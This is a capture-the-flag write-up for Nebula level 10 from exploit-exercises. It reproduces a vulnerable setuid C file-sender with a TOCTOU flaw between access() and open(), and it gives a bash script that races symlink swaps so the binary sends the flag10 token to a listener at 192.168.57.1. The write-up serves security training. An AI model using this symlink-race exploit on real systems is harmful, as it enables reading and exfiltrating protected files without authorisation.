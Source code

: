 .. _nebula10:

.. role:: bash(code)
    :language: bash
		     
Nebula level 10
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level10/

**Source Code**

.. code-block:: c
		
		#include <stdlib.h>
		#include <unistd.h>
		#include <sys/types.h>
		#include <stdio.h>
		#include <fcntl.h>
		#include <errno.h>
		#include <sys/socket.h>
		#include <netinet/in.h>
		#include <string.h>

		int main(int argc, char **argv)
		{
		    char *file;
		    char *host;

		    if(argc < 3) {
		        printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
			exit(1);
		    }

		    file = argv[1];
		    host = argv[2];

		    if(access(argv[1], R_OK) == 0) {
		        int fd;
			int ffd;
			int rc;
			struct sockaddr_in sin;
			char buffer[4096];

			printf("Connecting to %s:18211 .. ", host); fflush(stdout);

			fd = socket(AF_INET, SOCK_STREAM, 0);

			memset(&sin, 0, sizeof(struct sockaddr_in));
			sin.sin_family = AF_INET;
			sin.sin_addr.s_addr = inet_addr(host);
			sin.sin_port = htons(18211);

			if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
			    printf("Unable to connect to host %s\n", host);
			    exit(EXIT_FAILURE);
			}

		#define HITHERE ".oO Oo.\n"
		    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
		        printf("Unable to write banner to host %s\n", host);
			exit(EXIT_FAILURE);
		    }
		#undef HITHERE

		    printf("Connected!\nSending file .. "); fflush(stdout);

		    ffd = open(file, O_RDONLY);
		    if(ffd == -1) {
		        printf("Damn. Unable to open file\n");
			exit(EXIT_FAILURE);
		    }

		    rc = read(ffd, buffer, sizeof(buffer));
		    if(rc == -1) {
		        printf("Unable to read from file: %s\n", strerror(errno));
			exit(EXIT_FAILURE);
		    }

		    write(fd, buffer, rc);

		    printf("wrote file!\n");

		    } else {
		        printf("You don't have access to %s\n", file);
		    }
		}

Solution
--------

Put this on a file and execute it

.. code-block:: bash

   #!/bin/bash
   CONT=0.00001
   INC=0.00001

   while true; do
       cd /home/flag10
       ln -sf /home/level10/x /home/level10/y
       ./flag10 /home/level10/y 192.168.57.1 &
       sleep ${CONT}
       ln -sf /home/flag10/token /home/level10/y #| grep -v exist
       echo  "Voy en " ${CONT}
       CONT=$(awk "BEGIN {print ($CONT+$INC)}")
       sleep 2
   done
